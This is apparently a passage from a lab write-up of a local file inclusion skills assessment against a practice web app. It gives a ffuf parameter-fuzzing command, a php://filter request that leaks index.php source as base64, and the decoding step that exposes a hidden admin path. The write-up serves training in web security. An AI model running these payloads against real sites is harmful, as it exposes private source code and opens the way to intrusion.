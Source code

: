 >From the Identified pages on root of web app , searching for parameters on each page:  

```
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.252.24:46462/about.php?FUZZ=value'
```  

Identified parameter: `http://83.136.252.24:46462/index.php?page=value`  

### PHP Filter Read  

>Get the source code of the `index.php` page, but do not include `php` extension as the web application append it automatically.  

```
GET /index.php?page=php://filter/read=convert.base64-encode/resource=index 
```  

>Convert response base64 string to php code:  

```
echo 'PCFET0NUWVBFIGh0hjyrujwergwrtbWw <snip> teyrjetyjtryjrytjCg== | base64 -d > index.php
cat index.php | grep -ie 'Admin'
```  

![LFI-skills-assess-php-filter-source-code](/images/LFI-skills-assess-php-filter-source-code.png)  

>Extract with same method `error.php` and `main.php` source code.  

>Discover this php comment in the source code:  

```
// echo '<li><a href="ilf_admin/index.php">Admin</a></li>';
```

![LFI-skills-assess-identified](/images/LFI-skills-assess-identified.png)  
